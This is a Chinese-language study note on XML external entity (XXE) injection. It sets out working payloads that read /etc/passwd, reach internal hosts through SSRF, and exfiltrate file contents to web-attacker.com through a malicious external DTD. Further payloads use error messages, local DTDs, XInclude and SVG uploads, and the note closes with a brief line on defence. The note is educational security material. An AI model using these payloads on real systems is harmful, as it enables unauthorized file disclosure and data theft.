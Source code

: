 # XML external entity (XXE) injection
* XML 外部實體注入(XXE)，是指攻擊者干擾應用程式對 XML 數據的處理，進一步存取系統或相關的外部系統資料。
## 成因
* 有些網站透過 XML 格式來作為 browser 與 server 間的傳輸格式，而開發者使用公用的 XML 解析器，但未關閉預設的危險功能，導致出現 XXE 漏洞。
## 案例
### Exploiting XXE to retrieve files
* 定義了一個包含文件內容的外部實體，並在應用程式回應中返回。
* 像是原本應用程式透過 XML 來傳遞查詢庫存。
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
* 我們在中間插入一個外部實體。
* 定義一個 DOCTYPE 元素，該元素定義包含文件路徑的外部實體。
* 編輯應用程式回應中返回的 XML 中的數據值，以使用定義的外部實體。
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
### Exploiting XXE to perform SSRF attacks
* 定義引入後端系統的 URL 之外部實體，來進一步達成 SSRF。
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
### Blind XXE vulnerabilities
#### Detecting blind XXE using out-of-band (OAST) techniques
* 使用像 SSRF 的方式，不過加入 OAST 技巧，來偵測 blind XXE。
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
#### Bypassing via XML parameter entities
* 有時因為應用程式會進行驗證，使我們定義的實體無法使用，因此我們可以改用  XML parameter entities 來繞過。
* 使用 `%` 宣告參數，並可以在 DTD 中直接使用其參數。
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```
#### Exploiting blind XXE to exfiltrate data out-of-band
* 透過 OAST 載入惡意 dtd 來取得資料。
* 首先定義取得檔案的 `malicious.dtd`。
    * 定義 file 參數，定義引入外部檔案資料。
    * 然後定義 eval 參數，定義將取得的資料傳送到我們設定的服務器上。
    * 執行 eval 參數，建立出 eval 實體，然後取得 file 資料。
    * 執行 exfiltrate，將資料傳送的我們這邊。
    * 備註 : `&#x25;` 是 `%` 編碼。
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
* 之後透過請求我們的服務器載入我們定義的 `malicious.dtd` 檔案，執行取得資料。
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
#### Exploiting blind XXE to retrieve data via error messages
* 透過錯誤訊息，來顯示資料。
* 這邊透過 `file:///nonexistent/%file;` 找不到檔案而觸發錯誤訊息，進一步顯示 `%file` 參數所附帶的資料。
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
#### Exploiting blind XXE by repurposing a local DTD
* 有時我們是透過引入外部 DTD 來達成攻擊，但有時候可能 XML 本身已經宣告包含 `DOCTYPE` 的內部 DTD，因此有可能無法再引入外部 DTD 。(不過還是要看解析器，有些可以接受，有些則不行。)
* 因此我們可以透過重新定義 DTD 中的實體，來達成攻擊。
* 像是這邊重新定義 `file:///usr/local/app/schema.dtd` 中的`custom_entity` ，然後透過觸發找不到檔案的錯誤，來顯示資料。
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
* 有了透過重新定義本地 DTD 的實體技巧後，我們可以直接測試系統中是否有預設存在的 DTD 檔案，再將其引入透過重新定義實體達成攻擊，
* Linux 上如果使用 GNOME 桌面環境，則會存在 `/usr/share/yelp/dtd/docbookx.dtd`
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
### Finding hidden attack surface for XXE injection
#### XInclude attacks
* 有些應用程式，可能是在後端才嵌入 xml 來處理資歷 (像是 SOAP 協定)，因此我們無法在前端去改寫 `DOCTYPE`，不過我們可以透過 `XInclude` 來使後端處理時來建立XML。
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
#### XXE attacks via file upload
* 有些檔案格式可能是透過 XML 的格式來表達，因此我們也可以透過檔案上傳的方式來達成 XXE 攻擊。
* 包含 XML 的 SVG 圖片
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
#### XXE attacks via modified content type
* 有時我們可以透過修改 `Content-Type` 來傳遞 XML 給後端，來達成攻擊。
* 大部分後端都是接收 html form 表單，`Content-Type` 為`application/x-www-form-urlencoded`。
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
* 不過有些應用程式，也可以接受傳遞 XML 的格式。
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
## 防禦
* 了解目前所使用的 XML 解析器，關閉不必要或危險的功能。
---
###### tags: `web security`